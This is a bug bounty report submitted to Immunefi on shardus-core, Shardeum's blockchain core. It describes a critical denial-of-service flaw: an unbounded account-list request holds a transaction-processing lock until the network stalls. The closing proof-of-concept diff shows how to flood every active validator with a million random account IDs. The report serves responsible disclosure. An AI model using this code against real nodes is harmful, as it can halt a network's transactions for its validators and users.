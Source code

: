 # 33086 - \[BC - Critical] Complete shutdown of the transaction processing...

Submitted on Jul 11th 2024 at 04:13:20 UTC by @doxtopzhivago for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33086

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:

* Network not being able to confirm new transactions (total network shutdown)

## Description

## Brief/Intro

The handler of the internal message 'binary/get\_account\_data\_by\_list' can cause transaction processing queue blocking because of the sharing the same locking mechanism.

## Vulnerability Details

1. The handler of the internal message 'binary/get\_account\_data\_by\_list' is not setting correct bounds for length of the accounts list (Actually it is 2^32).
2. For each account the handler is executing app.getAccountDataByList which is calling AccountStorage.getAccount -> getAccountEntry -> creates and runs SQL query for each account ID.
3. Also the handler is creating fifoLock('accountModification') which is used in the following functions: preApplyTransaction and commitConsensedTransaction. Which are two critical functions for transaction processing. If this fifoLock is occupied by this handler, transaction processing will be slowed down or even stopped.

So by sending a big list (2^32) of random accounts it can create a significant delay in transaction processing on the single node.

It also can be scaled so that whole network performance will fall down:

For incomming messages there is no check that remote IP address belongs to the node, only verification by signature. So private key from single standby node can be used by multiple senders.

In case of mass sending from multiple senders to all validators (list is open) attacker can completely stop transaction processing or significantly slow it down because the fifoLock is shared between transaction processing flow and the handler.

In my experiment it was causing onProcesssingQueueStuck and node became offline.

## Impact Details

I want to emphasize that it is not just a simple DOS, it is overloading bottleneck (fifoLock) which is also used in some critical functions in a system. By increasing number of accounts in a message you can impact transaction processing on target nodes or the whole network itself.

## Proof of Concept

Please use it only for the attacker node which should be connected to the network and be active:

diff --git a/src/shardus/index.ts b/src/shardus/index.ts index 06184f15..71968a30 100644 --- a/src/shardus/index.ts +++ b/src/shardus/index.ts @@ -85,6 +85,13 @@ import SocketIO from 'socket.io' import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join' import \* as NodeList from '../p2p/NodeList' import { P2P } from '@shardus/types' +import { GetAccountDataByListReq, serializeGetAccountDataByListReq } from '../types/GetAccountDataByListReq' +import {

* deserializeGetAccountDataByListResp,
* GetAccountDataByListResp, +} from '../types/GetAccountDataByListResp' +import \* as hackcrypto from 'crypto' +const { Buffer } = require('buffer');

// the following can be removed now since we are not using the old p2p code @@ -725,7 +735,40 @@ class Shardus extends EventEmitter { this.stateManager.startProcessingCycleSummaries() }) Self.emitter.on('active', (nodeId) => {

* ```
   // this.io.emit('DATA', `NODE ACTIVE ${nodeId}`)
  ```
* ```
   console.log("n00b We are in active", NodeList.othersByIdOrder)            
  ```
* ```
   const garbageIds = [];
  ```
* ```
   if (NodeList.othersByIdOrder && NodeList.othersByIdOrder.length > 0 ){
  ```
* ```
     for (let i = 0; i < 1000000; i++) {
  ```
* ```
       garbageIds.push(hackcrypto.randomBytes(32).toString('hex'));
  ```
* ```
     }
  ```
* ```
     const message = { accountIds: garbageIds }
  ```
* ```
     setTimeout(async () => {
  ```
* ```
       try {
  ```
* ```
         const results = await Promise.all(NodeList.activeByIdOrder.map(node => {
  ```
* ```
           if (node.id !== Self.id) {
  ```
* ```
             this.p2p.askBinary<GetAccountDataByListReq, GetAccountDataByListResp>(
  ```
* ```
               node,
  ```
* ```
               InternalRouteEnum.binary_get_account_data_by_list,
  ```
* ```
               message,
  ```
* ```
               serializeGetAccountDataByListReq,
  ```
* ```
               deserializeGetAccountDataByListResp,
  ```
* ```
               {}, '', false, 10000
  ```
* ```
             )
  ```
* ```
           }            
  ```
* ```
        }));
  ```
* ```
       } catch (error) {
  ```
* ```
         console.error('Error:', error);
  ```
* ```
       }
  ```
* ```
     }, 10000);
  ```
* ```
   }    
  ```
